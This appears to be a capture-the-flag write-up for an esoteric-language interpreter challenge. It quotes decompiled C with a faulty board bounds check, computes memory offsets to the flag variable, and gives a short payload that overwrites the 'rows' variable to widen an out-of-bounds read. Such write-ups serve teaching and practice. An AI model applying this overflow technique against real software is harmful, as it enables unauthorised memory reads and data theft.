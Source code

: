 >End:
- @: Return 0. END.

_______\_

Every instruction has memory over/underflow checks. BUT the overflow check of the board for p(put) and g(get) instruction is faulty:

```c
...
    if ((rows < *(int *)(stack + (long)(sn + -1) * 4)) ||
       (cols < *(int *)(stack + (long)(sn + -2) * 4))) {
                    /* WARNING: Subroutine does not return */
      __assert_fail("stack[sn-1] <= rows && stack[sn-2] <= cols","homework.c",0x74,
                    (char *)&__PRETTY_FUNCTION__.0);
    }
...
```

We should be able to have row = 0x32 and col = 0x16, and this wouldn't assert fail. This comes down to an offset of: 0x32*0x16 + 0x16 = 0x462. 

Since we know the memory layout, it is something like this:
```
0x001050a0:     sn
0x001050c0:     stack
0x00105260:     board
0x001056ac:     rows
0x001056b0:     cols
0x001056b4:     diry
0x001056b8:     pcx
0x001056bc:     pcy
0x001056c0:     do_you_like_gittens
0x001056c4:     does_gittens_watch_cat_videos
0x001056e0:     flag
```

Offset between board and flag is 0x001056e0 - 0x00105260 = 0x480. 

The board instructions can overflow to 0x00105260 + 0x462 = 0x001056C2. We cannot read the flag yet. But we can overwrite the "rows" and "cols" variables to get an even bigger overflow that will allow us to read the flag.

The user input code cannot be on one line, each line can only be 21 characters long because the program does modulo 0x16. And you must guide the execution flow with '<','>','v','^'. 

This payload changes the rows variable to 0x50:
```
0!:+:*:*::::++++00!:v
@@@@@@@@p+++::*:*::+<
```

This allows us to overflow into the memory where flag is stored and read it. Write code that loops character-by-character and prints it to the terminal.

During the making of this code I used the constant 0x32 quite a lot so I started my code with a '2' (0x32), and I could easily access this with "00g", which gets the first character of my input. 
